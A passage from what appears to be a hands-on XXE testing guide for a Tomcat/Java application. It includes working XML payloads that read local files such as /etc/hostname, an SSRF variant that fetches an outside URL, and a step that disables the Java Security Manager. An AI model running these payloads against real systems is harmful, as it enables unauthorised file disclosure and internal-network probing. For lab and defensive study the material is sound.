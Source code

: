If accessing `/etc/passwd` isn't working, try accessing a different file or network resource.

#### **a. Attempt to Read Another File**

Modify your payload to read a different file, such as `/etc/hostname`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ELEMENT root ANY >
  <!ENTITY xxe SYSTEM "file:///etc/hostname" >
]>
<root>&xxe;</root>
```

Send the payload and check the response.

#### **b. Perform an SSRF Attack**

Attempt to access a network resource to see if external entities are processed.

**Payload:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ELEMENT root ANY >
  <!ENTITY xxe SYSTEM "http://example.com" >
]>
<root>&xxe;</root>
```

- This would attempt to fetch the content from `http://example.com`.

#### **c. Check for Error Messages**

If errors occur, they might be reflected in the response or logs, providing clues.

---

## **Possible Issues and Solutions**

### **Issue 1: Java Security Manager Restrictions**

**Solution:**

- Ensure the Java Security Manager is not restricting file access.

- **Disable Security Manager (for testing purposes only):**

  Edit the Tomcat service configuration:

  ```bash
  sudo nano /etc/systemd/system/multi-user.target.wants/tomcat9.service
  ```

  - Look for `-Djava.security.manager` and remove it if present.

  - Save and exit.
